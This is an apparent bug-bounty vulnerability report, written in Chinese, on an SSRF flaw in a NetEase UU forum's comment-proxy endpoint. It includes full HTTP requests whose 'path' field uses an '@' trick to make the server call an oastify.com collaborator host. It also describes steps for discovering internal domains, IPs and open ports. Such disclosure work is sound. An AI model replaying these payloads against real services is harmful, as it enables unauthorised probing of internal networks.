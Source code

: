 ## 漏洞名称

> 网易UU论坛深井Web版评论等功能存在SSRF漏洞

## 漏洞类型
> web漏洞，SSRF

## 危害等级
> 低危

## 漏洞URL
- POST https://sowellwell.com/w/v1/comment/proxy


## 关键数据包

    POST /w/v1/comment/proxy HTTP/2
    Host: sowellwell.com
    Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
    Content-Length: 351
    Identifier: jssdk_sD3SHpGpz24cW77h
    Accept: application/json, text/plain, */*
    Content-Type: application/json;charset=UTF-8
    Sec-Ch-Ua-Platform: "Windows"
    Origin: https://sowellwell.com
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
    Accept-Encoding: gzip, deflate

    {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}


## 漏洞描述
网易UU加速器论坛深井`https://sowellwell.com`的回复点赞等功能存在ssrf漏洞，攻击者能够通过该漏洞遍历内网机器和开放端口。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### 漏洞触发
1. 登录Web版深井账号，并且点开任意帖子并且发表评论或者对某评论进行点赞操作，同时用burpsuite记录点赞时的请求为POST请求`https://sowellwell.com/w/v1/comment/proxy`
![like](./ssrf/like.png)

2. 观察到请求体中有一个`path`字段，指向某个相对路径，于是尝试用@符号进行绕过。如下：

        某域名+/like/apps/uu/server/create_like = 完整url
        某域名+@攻击者控制的域名+/like/apps/uu/server/create_like = 攻击者url，而原始的域名则解析为账号字段
3. 将`path`字段修改为burp collaborator进行测试
        
        POST /w/v1/comment/proxy HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
        Content-Length: 351
        Identifier: jssdk_sD3SHpGpz24cW77h
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua-Platform: "Windows"
        Origin: https://sowellwell.com
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
        Accept-Encoding: gzip, deflate

        {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}

    collaborator接收到UU服务器发送的请求：
    ![collabo](./ssrf/collabo.png)

4. 获取内网域名

    将地址故意填错，可以观察到返回的错误字段包含内网域名信息，例如`path`字段填`abc`，服务器返回错误域名为：`in.mobile-community.uu.netease.comabc`，那么原始的域名为`in.mobile-community.uu.netease.com`

    ![domain](./ssrf/domain.png)

5. 获取域名IP地址
    
    通过dig命令可以查看该域名绑定的内网地址为`10.90.105.177`
    ![dig](./ssrf/dig.png)

6. 遍历内网IP

    获取启动的服务ip：
    ![valid](./ssrf/valid.png)

    未启动的服务ip：
    ![invalid](./ssrf/invalid.png)

7. 遍历内网开放端口

    以`10.90.105.241`为例，尝试遍历常见端口，发现端口8080开放
    ![ports](./ssrf/ports.png)

    
### 漏洞证明
请提供截图或视频

## 漏洞危害
1. 攻击者通过该漏洞遍历内网IP和端口开放信息，造成内网信息泄露
## 修复建议
1. 对潜在的请求`path`字段进行合法性校验

